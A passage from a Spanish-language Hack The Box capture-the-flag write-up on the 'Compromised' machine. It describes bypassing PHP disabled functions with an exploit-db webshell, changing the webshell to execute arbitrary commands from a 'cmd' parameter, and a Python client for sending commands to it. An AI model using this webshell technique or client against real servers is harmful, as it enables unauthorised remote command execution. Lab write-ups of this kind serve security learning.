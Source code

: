En este caso tenemos muchas funciones desanlilitadas, entre ellas system,passthru,popen,shell_exec,proc_open,exec...
Esta funciones son las que se utilizan genralmente para obtener una shell. Realizando investigaciones sobre posibles formas de bypassear esas Disabled_Functions encontre en exploitdb una webshell que nos permite bypassear dichas restricciones [https://www.exploit-db.com/exploits/47462](https://www.exploit-db.com/exploits/47462).
Esta webshell hay que modificarla, ya que esta hecha de tal forma que solo ejecuta un comando. Si **pwn("uname -a");** lo cambiamos por **pwn($_REQUEST['cmd']);;** podemos pedirle el comando que queramos a traves del parametro `cmd`.

Adicionalmente a esto y para hacer la explotación de la maquina más fácil, he desarrollado una pequeña herramienta para hacer los requests de una manera mas rápida y dinámica.
En este caso mi webshell se llama exploit.php y el parametro para los comandos es *cmd*.

```python
import os
import requests
import readline

readline.parse_and_bind('tab: complete')
readline.parse_and_bind('set editing-mode vi')

cmd=''
head=''

while cmd != 'exit':
    r = requests.get('http://10.10.10.207/shop/vqmod/xml/exploit.php', params={"cmd": "echo $(whoami)@$(hostname): "})
    cmd = input(r.text.rstrip())
    print("\n")
    c = requests.get('http://10.10.10.207/shop/vqmod/xml/exploit.php', params={"cmd": cmd})
    print(c.text)

```

---
## Usuario www-data

Una vez tenemos subida nuestra webshell podemos proceder a la enumeración. Lo primero que vamos a comprobar es el usuario que somos en el sistema.

![Compromised-id-www-data](/assets/imagenes/2021-01-23-compromised-HTB/Compromised-id-www-data.png)

Normalmente el usuario www-data suele ser un usuario sin privilegios, ya que es el encargado de gestionar el servidor web que corresponda. En este caso y como era de esperar es un usuario sin privilegios.
